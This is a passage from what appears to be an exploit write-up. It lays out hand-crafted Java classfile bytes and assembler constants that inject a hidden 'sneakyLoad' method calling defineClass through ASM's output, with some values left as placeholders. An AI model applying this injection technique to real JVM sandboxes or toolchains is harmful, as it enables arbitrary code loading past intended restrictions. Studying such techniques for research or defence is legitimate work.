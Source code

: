 This leads to the following bytes we need to inject for the post-constant pool parts of the classfile as a whole:

```
0001 
[this_cls] 
[super_cls] 
0000 
0000 
0002

0001 [sneakyLoad_utf] 0007 0005 
0009 0000001C 0042 0500 00000010 2A 2B 2C 0557 03 2C BE 2D B6[defineClass_method] 0557 B0 00 0000 0000 
0005 00000003 AAAAAA
0005 00000003 BBBBBB
0005 00000003 CCCCCC
0005 00000006 DDDDDD DD 05 00

0001 [init_utf] [init_desc_utf] 0005 
0009 0000001C 0043 0500 00000010 2A 00 00 0557 B7[CL_init_method] B1 00 00 00 0557 00 00 0000 0000
0005 00000003 666666
0005 00000003 777777
0005 00000003 888888
0005 00000E25 999999 99


```

Note that we no longer include the `attributes_count` of `0000` at the end of the classfile since our _input_ classfile also contains no class attributes, so ASM will write that out at the end as well. Instead of trying to inject it ourselves (which wouldn’t work anyway), we merely have to _not_ comment out the final two bytes of ASM’s output.

This brings us to the following code, where `-` are placeholders for values to be filled in later:

```
.method public woodlelyDoodlely : ()I
    .code stack 2000 locals 10
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"

        ldc_w "evilstring"

        ldc2_w 0x------0001------L
        ldc2_w 0x0000000000020001L
        ldc_w  0x--000700
        ldc2_w 0x00090000001C0042L
        ldc2_w 0x00000000102A2B2CL
        ldc2_w 0x57032CBE2DB6----L
        ldc2_w 0x57B0000000000000L
        ldc2_w 0x00000003AAAAAA00L
        ldc2_w 0x00000003BBBBBB00L
        ldc2_w 0x00000003CCCCCC00L
        ldc2_w 0x00000006DDDDDDDDL
        ldc2_w 0x000001--------00L
        ldc2_w 0x00090000001C0043L
        ldc2_w 0x00000000102A0000L
        ldc2_w 0x57B7----B1000000L
        ldc2_w 0x5700000000000000L
        ldc2_w 0x0000000366666600L
        ldc2_w 0x0000000377777700L
        ldc2_w 0x0000000388888800L
        ldc2_w 0x00000E2599999999L

        iconst_0
```